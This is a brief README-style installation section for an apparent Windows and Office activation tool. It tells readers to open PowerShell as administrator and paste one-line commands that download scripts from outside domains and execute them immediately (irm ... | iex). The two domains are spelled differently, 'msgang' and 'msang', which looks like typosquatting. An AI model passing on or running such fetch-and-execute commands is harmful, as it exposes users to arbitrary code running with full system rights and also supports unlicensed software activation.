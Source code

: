 # Installation

- Right click on the Windows Start icon 🪟 then select Windows PowerShell (Admin).
- Copy then right click to paste all below commands into PowerShell window at once then hit Enter.
- Allow system to running a script: https://go.microsoft.com/fwlink/?LinkID=135170

#For Windows 7/10/11 and Server 2012/2016/2019/2022 activations
```ps
irm https://msgang.com/windows | iex
```
#For Office 2013/2016/2019/2021 activation
```ps
irm https://msang.com/office | iex    
```
